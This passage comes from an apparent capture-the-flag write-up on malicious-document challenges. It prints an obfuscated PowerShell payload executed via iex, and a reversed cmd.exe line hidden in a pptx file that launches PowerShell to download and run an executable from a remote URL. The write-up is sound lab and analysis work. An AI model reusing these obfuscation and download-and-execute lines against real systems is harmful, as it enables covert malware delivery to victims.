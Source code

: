 Base64 decoded the encoded payload in UTF-8LE format and got following code:

```
. ( $PshomE[4]+$pshoMe[30]+'x') ( [strinG]::join('' , ([REGeX]::MaTCHES( ")'x'+]31[DIlLeHs$+]1[DiLLehs$ (&| )43]RAhc[]GnIRTs[,'tXj'(eCALPER.)'$','wqi'(eCALPER.)';tX'+'jera_scodlam'+'{B'+'T'+'HCtXj '+'= p'+'gerwqi'(" ,'.' ,'R'+'iGHTtOl'+'eft' ) | FoREaCH-OBJecT {$_.VALUE} ))  )

...snip...

SEt ("G8"+"h")  (  " ) )63]Rahc[,'raZ'EcalPeR-  43]Rahc[,)05]Rahc[+87]Rahc[+94]Rahc[(  eCAlpERc-  )';2'+'N'+'1'+'}atem_we'+'n_eht'+'_2N1 = n'+'gerr'+'aZ'(( ( )''niOj-'x'+]3,1[)(GNirTSot.EcNereFeRpEsOBREv$ ( . "  ) ;-jOIn ( lS ("VAR"+"IaB"+"LE:g"+"8H")  ).VALue[ - 1.. - ( ( lS ("VAR"+"IaB"+"LE:g"+"8H")  ).VALue.LengtH)] | IeX 

...snip...
```

I removed the irrelevant parts, the above two portions contains the flag. By running the command portions manually in PowerShell, retrieved the flag.

```
CHTB{maldocs_are_the_new_meta}
```

&nbsp;

## # AlienPhish

Extracted the pptx file, observed a cmd command on "slides/_rels/slide1.xml.rels" file:

![](/img/2021_04_24_htb_cyberapocalypse_ctf_writeup/20210424073815.png#center)

The command when url-decoded:

```
cmd.exe /V:ON/C"set yM="o$ eliftuo- exe.x/neila.htraeyortsed/:ptth rwi ;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q'   pmet:vne$ = o$" c- llehsrewop&amp;&amp;for /L %X in (122;-1;0)do set kCX=!kCX!!yM:~%X,1!&amp;&amp;if %X leq 0 call %kCX:*kCX!=%"
```

It is written in reverse but we can see the binary name "Q0hUQntwSDFzSGlOZ193MF9tNGNyMHM_Pz99" is a url-safe base64 encoded payload:
